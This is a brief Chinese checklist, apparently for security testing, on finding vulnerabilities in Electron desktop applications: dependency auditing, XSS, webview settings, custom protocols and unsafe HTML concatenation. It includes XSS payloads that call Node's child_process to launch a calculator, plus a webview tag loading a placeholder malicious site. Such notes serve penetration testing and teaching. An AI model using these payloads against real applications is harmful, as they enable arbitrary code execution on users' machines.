 ﻿挖掘思路
========================================

组件漏洞
----------------------------------------
+ 使用asar解压程序文件，切换到解压目录中.
+ 执行 npm install --package-lock-only 生成package-lock.json文件。
+ 执行 npm audit --verbose进行组件漏洞分析。

XSS漏洞
----------------------------------------
+ 示例程序：https://github.com/MrH4r1/Electro-XSS
+ payload
    - ``<img src=x onerror=alert(1) />``
    - ``<img src=x onerror=alert(require('child_process').execSync('gnome-calculator')); />``
    - ``<img src=x onerror=alert(require('child_process').exec('calc')); />``

IPC攻击
----------------------------------------

webview攻击
----------------------------------------
+ webPreferences中启用webview：
    - webviewTag: true
    - <webview src="http://malicious.site"></webview>

升级漏洞
----------------------------------------

查看是否有自定义协议
----------------------------------------
+ grep -r "registerHttpProtocol" ./

查找有无html内容拼接
----------------------------------------
    ::
    
        var $input2 = $("<input type='text' value='"+value+"' name='value' class='form-control' style=' width:20%; display: inline-block;' placeholder='value'>");
        分析拼接的输入点是否用户可控，查看是否有xss漏洞。